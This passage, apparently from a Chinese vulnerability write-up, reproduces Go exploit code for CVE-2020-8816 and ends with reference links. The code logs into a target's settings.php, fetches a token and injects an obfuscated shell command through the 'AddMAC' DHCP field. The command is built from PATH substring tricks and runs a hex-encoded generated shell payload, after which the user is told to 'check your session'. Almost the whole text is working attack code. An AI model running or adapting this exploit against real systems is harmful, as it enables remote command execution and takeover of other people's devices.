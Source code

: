     func Exploit(ses *grequests.Session, token string, payload string) {
        full_payload := "aaaaaaaaaaaa&&W=${PATH#/???/}&&P=${W%%?????:*}&&X=${PATH#/???/??}&&H=${X%%???:*}&&Z=${PATH#*:/??}&&R=${Z%%/*}&&$P$H$P$IFS-$R$IFS'EXEC(HEX2BIN(\"" + payload + "\"));'&&"
        resp,err := ses.Post(URL + "settings.php", &grequests.RequestOptions{Data: map[string]string{
            "AddMAC":full_payload,
            "field":"DHCP",
            "AddIP":"10.10.10.10", 
            "AddHostname":"10.10.10.10", 
            "addstatic":"", 
            "token":token}})
                if err != nil {
            log.Fatal("Error sending payload: ", err)
        }

        if resp.Ok != true {
            log.Println("Request for sending payload did not return OK")
        }
    }


    func main(){
        options := extractFlags()
        HOST = options.host
        URL = options.url
        PORT = options.port
        PASSWD = options.password 
        session := grequests.NewSession(nil)
        doLogin(session)
        log.Println("Getting Token...")
        token := getToken(session)
        log.Println("Token:",token)
        log.Println("Generating payload...")
        payload := generate_shell()
        log.Println("Payload generated:",payload)
        log.Println("Sending exploit...")
        Exploit(session, token, payload)
        log.Println("Exploit executed, check your session")
    }

参考链接
--------

> https://www.freebuf.com/vuls/234533.html
>
> https://github.com/team0se7en/CVE-2020-8816/blob/master/CVE-2020-8816.go
